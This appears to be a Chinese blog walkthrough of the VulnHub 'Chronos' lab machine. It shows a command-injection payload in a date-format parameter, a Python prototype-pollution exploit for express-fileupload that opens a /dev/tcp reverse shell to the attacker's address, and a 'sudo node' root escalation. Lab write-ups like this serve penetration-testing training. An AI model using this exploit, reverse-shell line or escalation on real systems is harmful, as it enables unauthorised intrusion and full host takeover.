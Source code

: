 ```yaml
---
title: VulnHub靶场 Chronos
description: VulnHub靶场 Chronos WP
pubDate: 10 20 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.png?imageMogr2/format/avif
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-1.png?imageMogr2/format/avif)

发现目标主机为 `192.168.135.105`，进行端口扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-2.png?imageMogr2/format/avif)

发现目标主机上开放 80 端口，访问目标端口 HTTP 服务

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-6.png?imageMogr2/format/avif)

没啥东西，尝试目录扫描，也没出货。查看源码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-4.png?imageMogr2/format/avif)

这里存在一段 JS，不过有一些混淆。不过这里有一个明文的 URL

```url
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

这里端口是 8000 端口，而且我们在进行端口扫描的时候，也发现了目标主机上开放了 8000 端口。而这个域名 `chronos.local`，可能就是靶机。我们可以添加个 hosts 试试。然后再刷新页面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-5.png?imageMogr2/format/avif)

页面发生了变化，我们直接访问 `http://chronos.local:8000`。不过在 windows 上经过测试，需要添加 UA 头，值为 `Chronos`。再次访问，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-7.png?imageMogr2/format/avif)

没啥东西了，重点应该就是这个 `4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`，尝试解一下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-8.png?imageMogr2/format/avif)

那么他是怎么输出的呢？

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-9.png?imageMogr2/format/avif)

结果和我们页面返回的一样。那么我们猜测后端其实就是执行了一个 date 命令，那么利用管道符就可以执行目标命令

```
date +Today is %A, %B %d, %Y %H:%M:%S.' || ls
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-10.png?imageMogr2/format/avif)

重放进行尝试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-11.png?imageMogr2/format/avif)

得到 ls 命令结果，命令执行成功。使用 nc 进行反弹，失败，使用 MSF，成功

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-12.png?imageMogr2/format/avif)

一番找，在 `/opt/chronos-v2/backend` 下发现个 `package.json`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-13.png?imageMogr2/format/avif)

```json
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}
```

这里有一些 `chronos-v2` 引用的库，这里有个 `express-fileupload`，该库存在 JS 原型污染，并且在服务端，必要条件 `parseNested` 为 True 也存在

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-14.png?imageMogr2/format/avif)

exp 如下

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/192.168.135.192/8888 0>&1"'

# pollute
requests.post(
    'http://127.0.0.1:8080',
    files={
        '__proto__.outputFunctionName':
        (None,
         f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x"
         )
    })

# execute command
requests.get('http://127.0.0.1:8080')
```

注意，由于是 `server.js` 下存在这个漏洞，它的监听端口是 `127.0.0.1:8080`，所以不要搞错 IP 端口。

把文件传到 `/tmp` 下，运行，即可得到反弹 shell

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-15.png?imageMogr2/format/avif)
但是不是 root 权限，我们使用 `sudo -l` 查看

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-16.png?imageMogr2/format/avif)

可以看到，`/usr/local/bin/node` 有 root 权限。使用 node 进行提权

```shell
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-17.png?imageMogr2/format/avif)

然后再传 MSF 马，得到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Chronos/003%20Chronos-18.png?imageMogr2/format/avif)

